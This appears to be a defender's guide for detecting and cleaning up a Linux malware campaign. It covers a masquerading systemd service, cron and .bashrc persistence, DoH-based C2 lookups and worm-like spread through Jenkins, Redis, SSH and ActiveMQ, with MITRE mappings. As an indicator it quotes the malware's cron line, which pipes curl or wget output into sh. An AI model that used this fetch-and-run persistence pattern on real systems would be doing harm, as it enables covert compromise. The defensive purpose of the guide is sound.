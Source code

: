 

Check if you have a service called sshservice.service. You can do this by running: systemctl status sshservice.service



Response: Stop and remove the service by running these commands:
systemctl stop [servicename]
systemctl disable [servicename]
rm /etc/systemd/system/[servicename]
rm /etc/systemd/system/[servicename]
rm /usr/lib/systemd/system/[servicename]
rm /usr/lib/systemd/system/[servicename]
systemctl daemon-reload systemctl reset-failed
MITRE Technique: Create System Process (T1543) and Masquerading (T1036)



Check if the cron jobs include commands in the following format:
*/15 * * * * (curl -fsSL -m180 ||wget -q -T180 -O- )|sh

Check the following location of scheduled jobs:

/var/spool/cron/root
/var/spool/cron/crontabs/root
/etc/cron.d/root

Response: Delete these commands from the crontab
MITRE Technique: Scheduled Task/Job (T1053)
Check that /etc/bashrc contains commands in the same format as the crontab files



Response: Delete the commands from the file
MITRE Technique:  Event Triggered Execution using .bashrc file (T1546)



This campaign uses DNS over HTTPs (DoH) to obtain the address of the C2 server using hard-coded domains that send back an encrypted DNS record. Inspect your network traffic for anomalies in HTTPs packages. Check if your machine tried to access one (or more) of the following domains:

Update.iap5u1rbety6vifaxsi9vovnc9jjay2l[.]com
cloudflare-dns[.]com





MITRE Technique: Protocol Tunneling (T1572) and Encrypted Channel (T1573)



The malware tries to infect other machines in the network by brute forcing weak passwords and exploiting vulnerabilities in Jenkins, Redis, SSH and ActiveMQ. Follow all of the steps above for machines that have these services.



MITRE Technique: Network Service Scanning (T1046)
TTPs now available in Intezer Analyze. Speed up malware analysis with relevant insights to understand how malware behaves. Analyze and classify 50 files per month with our free community edition.
Be Proactive

